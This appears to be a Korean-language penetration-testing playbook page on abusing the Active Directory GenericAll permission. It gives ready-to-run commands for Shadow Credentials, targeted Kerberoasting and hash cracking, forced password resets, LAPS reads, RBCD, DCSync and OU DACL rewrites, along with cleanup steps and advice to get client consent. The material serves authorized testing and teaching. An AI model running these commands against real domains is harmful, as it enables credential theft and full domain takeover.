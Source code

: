 # GenericAll

* 대상의 거의 모든 액티브 디렉토리 특성을 READ/WRITE 할 수 있는 권한. 사실상 대상의 소유권한(Owner Rights)을 가지고 있는 것이나 다름 없다. 대상의 종류와 상관 없이 (유저, 컴퓨터, 그룹, 도메인) 사실상 대상을 바로 장악할 수 있다.
* 공식 액티브 디렉토리 권한

대상에 따라 `GenericAll` DACL을 악용할 수 있는 방법도 다르다.&#x20;

* 유저: 계정 장악
* 컴퓨터: 머신 계정 장악 + 로컬 관리자 권한 획득
* 그룹: 그룹에 공격자 유저 추가
* 도메인: DCSync 기능 사용 가능

<figure><img src="../../.gitbook/assets/genericAll-FullControl.png" alt=""><figcaption></figcaption></figure>

## 악용 - 유저&#x20;

<figure><img src="../../.gitbook/assets/bh-generic-all-user-comp (1).png" alt=""><figcaption></figcaption></figure>

1. Shadow Credentials: `msDS-KeyCredentialsLink` 에 공격자 공개 키를 추가한 뒤, PKINIT을 이용해 사용자 인증을 한다
2. Targeted Kerberoast: 대상 유저 계정에 SPN을 추가한 뒤 해당 유저만 Kerberoasting 공격을 실행한다
3. Force Change Password: 대상 유저 계정의 비밀번호를 강제로 바꾼다



### Shadow Credentials

```
# ShadowCredentials 공격 
pywhisker.py -d domain.local -u controlledAccount -p pass --target targetAccount --action add

python3 gettgtpkinit.py -cert-pfx <pfx> -pfx-pass <pass> domain.com/target target.ccache
export KRB5CCNAME=target.ccache
python3 getnthash.py -key <AS-REP Encryption key> domain.com/target

# 공격자로서 추가했던 DeviceID만 삭제 
python3 pywhisker.py -d choi.local -u abuse -p 'Password123!' --target victim --action remove -D <DeviceID>

# 확인 
python3 pywhisker.py -d choi.local -u abuse -p 'Password123!' --target victim --action list
```

### Targeted Kerberoast

```
git clone https://github.com/ShutdownRepo/targetedKerberoast.git

python3 targetedKerberoast.py -v -d domain.com -u attacker -p pass --request-user targetUser --only-abuse

hashcat -a 0 -m 13100 <hash> <wordlist> 
```

### Force Change Password

```
# 윈도우 머신 필요. TODO: Impacket이나 다른 툴 알아보기 
net rpc password "TargetUser" "newP@ssword2022" -U "DOMAIN"/"ControlledUser"%"Password" -S "DomainController"
```



## 악용 - 컴퓨터&#x20;

<figure><img src="../../.gitbook/assets/bh-generic-all-user-comp.png" alt=""><figcaption></figcaption></figure>

다음과 같은 공격으로 머신 계정을 장악한다.

1. Retrieve LAPS
2. RBCD
3. Shadow Credentials

### LAPS

```
# PyLAPS 
python3 pyLAPS.py --action get -c 'TEST01$' -u user -p pass -d domain.com --dc-ip dc

# CME 
cme ldap dc -u user -p pass -M laps 
```

### RBCD

```
# 공격 
addcomputer.py -computer-name 'TEST1337$' -computer-pass 'SUPERDUPERLONGPASSWD31337YOHEY#' -dc-host dc domain.com/user:pass
rbcd.py -delegate-from 'TEST1337$' -delegate-to 'TARGETCOMP$' -action write domain.com/user:pass
getST.py -spn CIFS/targetcomp.domain.com -impersonate Administrator domain.com/'TEST1337$':'SUPERDUPERLONGPASSWD31337YOHEY#'

# 마무리 후 클린업 
rbcd.py -delegate-from 'TEST1337$' -delegate-to 'TARGETCOMP$' -action remove domain.com/user:pass
addcomputer.py -computer-name 'TEST1337$' -computer-pass 'SUPERDUPERLONGPASSWD31337YOHEY#' -dc-host dc domain.com/user:pass -delete
```

### Shadow Credentials

```
# ShadowCredentials 공격 
pywhisker.py -d domain.local -u controlledAccount -p pass --target targetAccount --action add

python3 gettgtpkinit.py -cert-pfx <pfx> -pfx-pass <pass> domain.com/target target.ccache
export KRB5CCNAME=target.ccache
python3 getnthash.py -key <AS-REP Encryption key> domain.com/target

# 공격자로서 추가했던 DeviceID만 삭제 
python3 pywhisker.py -d choi.local -u abuse -p 'Password123!' --target victim --action remove -D <DeviceID>

# 확인 
python3 pywhisker.py -d choi.local -u abuse -p 'Password123!' --target victim --action list
```



## 악용 - 그룹&#x20;

* 유저 그룹에 도메인 유저를 추가할 수 있는 `AddMember` 권한을 얻은 것이나 다름 없기에 그룹에 공격자의 유저를 추가하면 된다.

```
# 윈도우 머신 필요. TODO: Impacket 혹은 리눅스 툴 알아보기 
net rpc group addmem "TargetGroup" "TargetUser" -U "DOMAIN"/"ControlledUser"%"Password" -S "DomainController"
```



## 악용 - 도메인&#x20;

다음과 같은 공격으로 컴퓨터 및 도메인을 장악한다.

1. DCSync: `GenericAll` 의 경우 `AllExtendedRights` 권한을 포함한다. 이 권한은 `DS-Replication-Get-Changes` 및 `DS-Replication-Get-Changes-All` 권한을 포함하는데, 이 권한을 갖고 있다면 DCSync를 실행할 수 있다.
2. LAPS: LAPS 비밀번호들을 읽어올 수 있다.
3. DCSync

### DCSync&#x20;

```
cme smb <dc> -u user -p pass --ntds [vss,drsuapi]
secretsdump.py domain.com/user:pass@<dc>
```

### LAPS

```
# PyLAPS 
python3 pyLAPS.py --action get -c 'TEST01$' -u user -p pass -d domain.com --dc-ip dc

# CME 
cme ldap dc -u user -p pass -M laps 
```



## 악용 - GPO&#x20;

<figure><img src="../../.gitbook/assets/genericAll-gpo-config.png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/bh-genericall-gpo-real.png" alt=""><figcaption></figcaption></figure>

* 정확히 GenericAll 은 아니지만, 가장 많은 권한을 부여할 경우 GenericWrite, WriteOwner, WriteDACL 권한을 부여받을 수 있다.
  * GPO Enforced + Child Objects with Block Inheritance DISABLED 의 경우 스크린샷처럼 점선이 아닌 실선으로 나타나는데, 이때는 악용이 가능한 상태다. GPO Enforced 와 Block Inheritance 관련된 레퍼런스가 있으나, 너무 길어질까봐 생략한다.
* GPO에 따라 다르겠지만, 위 GPO의 경우 Domain Users 및 Domain Computers 에 링크가 된 상태다. 따라서 Evil GPO 형식의 공격이 가능하다.
* 컴퓨터의 경우 리버스쉘을 받거나, 로컬 관리자 유저 등을 추가할 수 있다. 단, 실제 모의해킹에서 GPO 관련된 공격은 최대한 자제하고, 고객사의 동의를 얻는 것이 좋다. GPO 잘못 건드렸다가 고객사의 모든 도메인 유저와 도메인 컴퓨터들을 망쳐버린 뒤 수억원의 소송에 휘말리기 싫다면 말이다.
  * GPO Abuse 의 문제점은, 공격 자체는 쉬운데 그걸 되돌리기가 까다롭다는 것이다. 따라서 실제 모의해킹시 잘 사용되지 않는다.

```
https://github.com/Hackndo/pyGPOAbuse.git
```

* 실제 모의해킹에서도 GPO Abuse 는 제대로 진행하지 않기에 이 플레이북에서도 실습은 패스한다.



## 악용 - OU와 Containers&#x20;

<figure><img src="../../.gitbook/assets/genericAll-OU-Containers-config.png" alt=""><figcaption></figcaption></figure>

* OU나 Container에 GenericAll 등의 권한이 있을 경우 DACL을 추가하거나 수정하는 형식으로 공격자 유저 계정에 추가적인 권한을 부여할 수 있다.
* 이때, `Inheritance` 를 이용해 OU나 Container에 속하는 모든 객체들에게 DACL이 수정되기 때문에 꼭 되돌리기를 사용해야한다.

```
# DACL 수정 
dacledit.py -action write -rights FullControl -inheritance -principal 'JKHOLER' -target-dn 'OUDistinguishedName' 'domain'/'user':'password'

# 예시) DaclEdit 을 이용해 모든 컴퓨터 머신 계정들에게 FullControl 권한 획득 
dacledit.py -action write -rights FullControl -principal 'abuse' -inheritance -target-dn 'CN=Computers,DC=choi,DC=local' choi.local/abuse:'Password123!'

# 예시) FullControl 을 얻은 이후 머신 계정을 향한 ShadowCredentials 공격 
python3 pywhisker.py -d choi.local -u abuse -p 'Password123!' --target 'wkstn01$' --action add

# 되돌리기 
dacledit.py -action restore -file dacledit.bak domain.com/user:pass
```





